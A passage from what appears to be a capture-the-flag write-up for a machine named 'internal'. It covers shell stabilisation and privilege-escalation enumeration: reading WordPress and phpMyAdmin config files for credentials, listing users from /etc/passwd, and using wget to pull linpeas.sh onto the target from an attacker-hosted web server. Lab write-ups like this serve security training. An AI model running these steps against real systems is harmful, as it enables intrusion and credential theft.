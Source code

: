 Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

### Privilege Escalation

Once with a stable shell, we can begin with the **privilege escalation** phase, i checked the `sudoers`, `SUID binaries`, `Cron Jobs`, `Capabilities`, etc. Nothing found, i also checked the `/var/www/html/wordpress/wp-config.php` file and the `/etc/phpmyadmin/config-db.php` and i found the following credentials:

- `wp-config.php` -> `wordpress:wordpress123`
- `config-db.php` -> `phpmyadmin:B2Ud4fEOZmVq`

The `wp-config.php` credentials works for the `mySQL` database, after checking the database nothing useful was found.

The `config-db.php` credentials just work for the **PhpMyAdmin** website login form.

I checked the system users.

```bash
www-data@internal:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
```

After checking both passwords with both users none worked.

So, after all this, i uploaded the `linpeas.sh` script to see if i missed something, let's download the script locally first and host it with a webserver.

```bash
❯ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we can just download the script from the target machine

```bash
www-data@internal:/$ cd /tmp/
www-data@internal:/tmp$ wget http://10.14.99.119/linpeas.sh
--2025-03-05 20:50:58--  http://10.14.99.119/linpeas.sh
Connecting to 10.14.99.119:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840082 (820K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 820.39K   532KB/s    in 1.5s    

2025-03-05 20:50:59 (532 KB/s) - 'linpeas.sh' saved [840082/840082]

www-data@internal:/tmp$ chmod +x linpeas.sh 
```
